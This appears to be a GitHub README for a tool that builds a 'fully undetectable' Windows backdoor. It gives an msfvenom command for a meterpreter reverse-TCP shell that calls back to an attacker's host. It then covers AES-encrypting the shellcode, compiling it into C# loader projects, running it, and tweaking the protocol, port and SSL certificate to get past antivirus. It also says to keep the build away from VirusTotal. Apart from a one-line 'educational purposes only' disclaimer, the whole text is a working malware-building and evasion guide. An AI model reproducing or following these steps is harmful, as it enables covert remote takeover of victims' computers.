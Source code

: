 # 🔒 Generate **FUD** backdoor with a AES **Crypter** 🔒
Follow the steps bellow to generate a crypted shellcode that can be used on a C++ executable.

#DONT UPLOAD TO VIRUS TOTAL
```
https://antiscan.me/scan/new/result?id=i55PH2FhUHID
```

## Clone the repository
```
Download (https://github.com/tr1xongithub/fud-backdoor/)
```

## Generate The ShellCode

```
msfvenom -p windows/x64/meterpreter/reverse_tcp  -i 10 LHOST=(IP) LPORT=(PORT) -f csharp 
```

## Encode the ShellCode With the AES Encryption

```
open the shelloader and add the bytes to the AESEncrytion Tool
```

## Add the crypted shellcode on Program.cs in AESEncrptor
Now that you have the shellcode you need to add it on the Program.cs file just like this:
```
byte[] buf = new byte[] { /*shellcode*/ };
```
Now Run the Project

## Compile The Backdoor
Once You Get the Encoded Shellcode open the AESInjector Project and paste the shellcode into
```
byte[] duffer = new byte[] { /*shellcode*/ };
```
Then Compile it as x64 in visual Studios

## Execute the backdoor
Now you can execute the backdoor and enjoy the metepreter shell

## What if it gets detected?

At some point, the anti viruses will be able to detect this backdoor. Here are some things you can do to make it undetectable again. 

You can try to change the payload type protocol and make it http or https and make sure to use another port, add gibberish C# code on the Program.cs file and you can also try playing with the SSL certificate of the session. Here is an article that covers this: https://www.darkoperator.com/blog/2015/6/14/tip-meterpreter-ssl-certificate-validation

If this still doesn't work, I can't think of another way to make the connection undetectable since this is a meterpreter shell and they get detected quite easily

## DISCLAIMER

I am not responsible for any of your actions. This GitHub repository is made for educational purposes only!!!
